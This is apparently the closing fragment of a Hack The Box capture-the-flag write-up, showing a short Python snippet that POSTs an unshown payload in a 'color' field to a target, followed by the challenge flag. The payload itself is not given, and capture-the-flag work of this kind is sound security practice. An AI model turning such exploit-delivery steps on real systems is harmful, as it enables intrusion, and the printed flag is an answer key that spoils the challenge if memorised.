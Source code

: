 ```py

data = {"color": f"{payload}"}

response = requests.post(url, headers=headers, data=data)

print("Status Code:", response.status_code)
print("Response Content:", response.text)

```

## Flag

```HTB{r4c3_2_rc3_04uth2_j4ck3d!}```